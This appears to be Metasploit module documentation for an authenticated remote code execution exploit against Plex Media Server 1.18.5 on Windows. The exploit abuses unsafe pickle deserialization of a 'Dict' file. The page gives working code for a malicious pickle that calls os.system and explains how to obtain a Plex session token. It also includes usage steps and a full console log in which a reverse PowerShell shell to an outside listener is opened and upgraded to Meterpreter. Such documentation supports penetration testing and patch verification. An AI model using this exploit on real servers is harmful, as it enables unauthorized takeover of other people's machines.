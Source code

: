 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex. Due to the restrictions of pickle RCE, we write our
payload to a file then simply execute it through the pickled `Dict`
file.

If an exploit fails, or is cancelled, `Dict` and `Dict.bat` are
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1` and `Dict-1.bat`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle
import os

class EvilPickle(object):
  def __init__(self):
    pass
  def __reduce__(self):
     return (os.system,('c:\\Users\\Public\\mememe\\Dict.bat',))

e = EvilPickle()
pickle.dumps(e)
"cposix\nsystem\np0\n(S'c:\\\\Users\\\\Public\\\\mememe\\\\Dict.bat'\np1\ntp2\nRp3\n."
```

However, this was run on Linux and thus `posix` can be seen in the output.  When run
on Windows, the output will be slightly different and use `nt` isntead of `posix`.
The Windows version of the code is required.

### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Either due to the pickling, or the HTTP server interaction, or running on Windows, all attempts to either call multi-function such as:
```eval(base64.b64decode())```
or execute OS commands with more than one parameter
```os.system('net user...')```
or
```os.system('powershell.exe ...')```
failed.  With this in mind, the strategy of uploading a payload file, and calling it was the one that worked.


## Verification Steps

  1. Install the application
  2. Register/Connect it to your Plex Premium account
  3. Start msfconsole
  4. Do: ```use windows/http/plex_unpickle_dict_rce```
  5. Do: ```run```
  6. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.  To obtain this, simply use a browser
to log-in to the server, then check the requests for this header.

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `5` seemed to be OK, default is `10`.

### PAYLOAD

Payload is extremly picky, from testing only `cmd/windows/reverse_powershell` worked, however it was very reliable.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

  ```
  [*] Processing plex.rb for ERB directives.
  resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
  resource (plex.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (plex.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (plex.rb)> set PLEX_TOKEN jy4g8mz2cmHbAaPBsEG7
  PLEX_TOKEN => jy4g8mz2cmHbAaPBsEG7
  resource (plex.rb)> set verbose true
  verbose => true
  resource (plex.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Gathering Plex Config
  [*] Server Name: EXPLOITABLE -win10
  [+] Server OS: Windows (10.0 (Build 16299))
  [+] Server Version: 1.18.5.2309-f5213a238
  [*] Adding new photo library
  [+] Created Photo Library: 94
  [*] Adding pickled Dict to library
  [*] Adding payload to library root
  [*] Changing AppPath
  [*] Restarting Plex
  [*] Sleeping 10 seconds for server restart
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:57277) at 2020-06-19 23:32:00 -0400
  [*] Cleanup Phase: Reverting changes from exploitation
  [*] Changing AppPath
  [*] Restarting Plex
  [!] Tried to delete C:\Users\Public\ULTTqY\Plex Media Server\Plug-in Support\Data\com.plexapp.system\Dict, unknown result
  [*] Deleting Photo Library
  [!] Tried to delete C:\Users\Public\ULTTqY\Dict.bat, unknown result
  
  Could Not Find C:\Windows\.exe
  
  C:\Windows>background
  
  Background session 1? [y/N]  y 
  ```

  ```
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -u 1
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
  
  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 2.2.2.2:4433 
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > 
  [*] Sending stage (176195 bytes) to 1.1.1.1
  [*] Meterpreter session 2 opened (2.2.2.2:4433 -> 1.1.1.1:57293) at 2020-06-19 23:33:43 -0400
  [*] Stopping exploit/multi/handler
  
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -i 2
  [*] Starting interaction with 2...
  
  meterpreter > getuid
  Server username: WIN10PROLICENSE\windows
  meterpreter > sysinfo
  Computer        : WIN10PROLICENSE
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
